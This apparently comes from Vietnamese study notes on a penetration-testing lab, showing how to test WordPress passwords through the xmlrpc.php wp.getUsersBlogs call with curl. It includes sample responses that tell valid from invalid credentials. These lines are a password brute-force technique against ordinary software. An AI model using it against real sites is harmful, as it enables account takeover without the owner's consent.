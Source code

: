 ## Login

Khi ta đã có được list các username hợp lệ => bruteforce password qua trang login hoặc qua `xmlrpc.php`.

### cURL - POST Request

```
[!bash!]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

### Invalid Credentials - 403 Forbidden

```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
